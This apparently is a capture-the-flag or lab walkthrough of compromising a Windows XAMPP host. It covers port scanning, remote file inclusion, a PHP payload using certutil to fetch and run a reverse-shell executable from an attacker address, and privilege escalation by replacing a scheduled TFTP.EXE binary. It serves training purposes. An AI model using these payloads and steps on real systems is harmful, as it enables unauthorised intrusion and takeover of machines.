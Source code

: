 # Network Enumeration

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
```

# Port Enumeration

## FTP 21

Can't login as anonymous

<img src="../Images/image-20230818121152035.png" alt="image-20230818121152035" style="zoom:80%;" />

## Port 5040

Didn't get any response

<img src="../Images/image-20230818121236756.png" alt="image-20230818121236756" style="zoom:80%;" />

## Port 7680

Connection refused

<img src="../Images/image-20230818121254245.png" alt="image-20230818121254245" style="zoom:80%;" />

## Port 4443

This is a XAMPP Verion 7.4.6 index page.

<img src="../Images/image-20230818121358265.png" alt="image-20230818121358265" style="zoom:80%;" />

## Port 8080

Same to Port 4443.

<img src="../Images/image-20230818121421107.png" alt="image-20230818121421107" style="zoom:80%;" />

# Web Enumeration

## Port 8080

<img src="../Images/image-20230818131155903.png" alt="image-20230818131155903" style="zoom:80%;" />

Found a site path.



## Port 4443

<img src="../Images/image-20230818131216608.png" alt="image-20230818131216608" style="zoom:80%;" />

Find `/cgi-bin` but can't access.

## Deep-in discovery

### Port 4443



Navigate to port 4443 site path.

<img src="../Images/image-20230818131330407.png" alt="image-20230818131330407" style="zoom:80%;" />

Shows the `page=main.php`, use `nc` to set a listener locally.

<img src="../Images/image-20230818131518251.png" alt="image-20230818131518251" style="zoom:80%;" />

Can get the request from target. So now write the download php file for this target to get our reverse shell file.

### Step1. Use php to let target machine download our reverse shell exe file.

```php
<?php 
$exec = system('certutil.exe -urlcache -split -f "http://192.168.xxx.xxx/shell.exe" shell.exe', $val); 
?> 
```

### Step2. Generate a exe file to reverse shell.

<img src="../Images/image-20230818132230211.png" alt="image-20230818132230211" style="zoom:80%;" />

Then compile c file to `.exe`.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Slort]
└─$ x86_64-w64-mingw32-gcc reverse_c.c -o shell.exe -lws2_32
reverse_c.c: In function ‘main’:
reverse_c.c:18:66: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   18 |     Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
      |                                                                  ^
reverse_c.c:18:86: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   18 |     Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
      |         
```

### Step 3. Let target machine running this exe file.

```php
<?php 
$exec = system('s.exe', $val); 
?> 
```

### Step 4. Target Machine download the shell.exe.

<img src="../Images/image-20230818132523947.png" alt="image-20230818132523947" style="zoom:80%;" />

### Step 5. Target machine running this file then we get the reverse shell.

<img src="../Images/image-20230818132630713.png" alt="image-20230818132630713" style="zoom:80%;" />

<img src="../Images/image-20230818132635800.png" alt="image-20230818132635800" style="zoom:80%;" />

Right now we get the rev shell.



# PE

## Information Collection

### Application permission

<img src="../Images/image-20230818133233117.png" alt="image-20230818133233117" style="zoom:80%;" />

### Listening ports

<img src="../Images/image-20230818133335277.png" alt="image-20230818133335277" style="zoom:80%;" />

<img src="../Images/image-20230818133425819.png" alt="image-20230818133425819" style="zoom:80%;" />

### Find a folder on `C:\`

Check the `C:\` I can find a folder name of `Backup`.

<img src="../Images/image-20230818135319856.png" alt="image-20230818135319856" style="zoom:80%;" />

Check the details.There are three things here.

<img src="../Images/image-20230818135348350.png" alt="image-20230818135348350" style="zoom:80%;" />

The backup.txt file is a log.

<img src="../Images/image-20230818135406305.png" alt="image-20230818135406305" style="zoom:80%;" />

The `info.txt` file let us know  the TFTP.EXE file will running every 5 mins.

<img src="../Images/image-20230818135449461.png" alt="image-20230818135449461" style="zoom:80%;" />

So try to replace this exe file.

<img src="../Images/image-20230818135711555.png" alt="image-20230818135711555" style="zoom:80%;" />

Wait for script running. Get administrator shell.

<img src="../Images/image-20230818140016081.png" alt="image-20230818140016081" style="zoom:80%;" />

